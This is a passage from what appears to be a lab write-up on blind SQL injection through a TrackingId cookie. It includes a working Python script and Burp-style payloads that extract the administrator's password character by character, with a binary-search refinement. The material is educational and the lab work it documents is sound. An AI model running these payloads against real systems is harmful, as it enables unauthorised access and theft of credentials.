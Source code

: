 Unfortunately, Burp Intruder *as is* is unable to do better—it is intended to do brute force attacks.

*The equivalent Python code:*

```python
import requests
import string

url = "insert here the link to the lab generated for your session"
original_cookie = "your cookies go here"

alphabets = [
    string.ascii_letters,     # a-zA-Z
    string.digits,            # 0-9
]

def isMatch(char: str, passwordIndex: int) -> bool:
    payload = f"' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'administrator'), {passwordIndex}, 1) = '{char}"
    cookies = {"TrackingId": original_cookie + payload}
    response = requests.get(url, cookies=cookies)
    return "Welcome back!" in response.text

result = ""

# Assuming a password length of 30
for i in range(1, 30):
    found = False
    for charset in alphabets:
        for char in charset:
            if isMatch(char, i):
                result += char
                found = True
                print(f"[{i}] Found character: {char}")
                break
        if found:
            break

print("password:", result)
```

### Scripting a solution

We can observe a thing: searching a single character (for example the first one) we can find it in $$O(\log{} M)$$ using a binary search since it is like searching it in an alphabet and an *alphabet is by definition an ordered set*, for this reason we introduce a second payload that uses '>' instead of '=', in this way we can say if the char at index $pos is equal, higher or lower.

```text
Cookie: TrackingId=y6tn63qZPONEGZjW' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'administrator'), $pos, 1) > '$char
```
